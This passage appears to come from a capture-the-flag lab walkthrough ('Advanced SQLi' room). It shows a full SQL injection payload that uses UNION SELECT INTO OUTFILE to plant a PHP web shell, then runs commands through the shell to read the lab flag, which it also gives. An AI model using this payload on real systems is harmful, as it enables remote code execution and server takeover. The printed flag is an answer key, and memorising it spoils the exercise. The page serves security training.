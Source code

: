 1.  Recall Column Count: Remember the number of columns `product.php` returns from Task 3 (e.g., 3 columns).
2.  Research `INTO OUTFILE`: This SQL function is used to save the result of a `SELECT` statement to a file.
3.  Target Directory: The writable and web-accessible directory for your shell is `/var/www/html/uploads/`. You'll name your shell `shell.php`.
4.  Craft the RCE Payload:

-   Inject the web shell code into one of the displayable columns using `UNION SELECT` and save it to the target file.
-   Navigate to: `http://MACHINE_IP/product.php?id=-1' UNION SELECT 1,'<?php system($_GET["cmd"]); ?>',3 INTO OUTFILE '/var/www/html/uploads/shell.php'-- -`
-   Important:
-   The `-1` ensures the original query doesn't return results.
-   Match the column count (e.g., `1,2,3`).
-   Place your shell content `'<?php system($_GET["cmd"]); ?>'` into one of the displayable columns (adjust position `2` as needed).
-   Use the absolute path `/var/www/html/uploads/shell.php`.
-   Remember the` -- -` to comment out the rest of the original query.

> Execute Payload: Access the URL in your browser. You might see a generic error, but the shell should still be written.

Module 4: Gaining Control & Flag Retrieval
------------------------------------------

*Goal:** Access your deployed web shell, confirm RCE, and find the final flag.*

Access Your Web Shell:

-   Open your web shell in the browser: `[http://MACHINE_IP/uploads/shell.php](http://machine_ip/uploads/shell.php)`

Execute Commands:

-   Append `?cmd=` followed by a Linux command to the URL.
-   Example: Check current user: `[http://MACHINE_IP/uploads/shell.php?cmd=whoami](http://machine_ip/uploads/shell.php?cmd=whoami)`
-   List files: `http://MACHINE_IP/uploads/shell.php?cmd=ls`
-   Find the final flag: Use `ls` to navigate directories and use `cat` to read its contents.
-   `[http://MACHINE_IP/uploads/shell.php?cmd=cat](http://machine_ip/uploads/shell.php?cmd=cat) finalFlag.txt`

> Submit the finalFlag.
>
> FLAG{RCE_Master}

Task 5: Conclusion & What's Next?
=================================

Congratulations, you've completed the "Advanced SQLi" room!

> Keep learning, keep hacking, and always stay ethical!
